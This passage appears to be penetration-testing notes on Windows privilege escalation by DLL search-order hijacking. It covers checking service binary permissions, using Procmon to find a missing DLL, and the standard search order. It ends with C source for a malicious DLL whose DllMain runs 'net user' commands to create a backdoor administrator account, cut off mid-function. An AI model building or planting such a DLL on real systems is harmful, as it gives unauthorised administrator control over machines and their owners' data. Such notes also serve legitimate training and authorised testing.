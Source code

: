 Check permissions of a binary file linked to a specific service:

```bash
icacls .\Documents\servizio.exe
```

**Procmon64.exe** can be used to inspect the service. Normally this can only be started with administrator privileges, so you usually transfer the service binary to your own machine and inspect it from there.

Once **Procmon64.exe** is started, you need to filter based on the service to inspect.

Then you need to restart the service:

```bash
Restart-Service servizio
```

In the case analyzed, it was noted the presence of several _CreateFile_ type operations connected to a _ddl_ that was not found.

To **hijack** the _DLL search order_ you need to keep in mind the Windows standard for searching for a dll linked to an executable:

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

In the case analyzed, the service searched (failing) for a file called _myDLL.dll_. In order to exploit this behavior, a malicious DLL was placed inside the user's documents folder, since (due to the standard) it is the second folder where the system looks for the dll and it was **overwritable** by the user.

```text
Each DLL can have an optional entry-point function called DllMain, which is executed when a process or thread attaches to the DLL.

This function generally contains 4 cases _DLL_PROCESS_ATTACH_, _DLL_THREAD_ATTACH_, _DLL_THREAD_DETACH_, _DLL_PROCESS_DETACH_.

These cases handle situations where the DLL is loaded or unloaded by a process or thread. They are commonly used to perform initialization tasks for the DLL or tasks related to exiting the DLL.

If a DLL does not have a DllMain entry point function, it only provides resources.
```

Below is a dll that allows you to create an administrator user:

```bash
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
```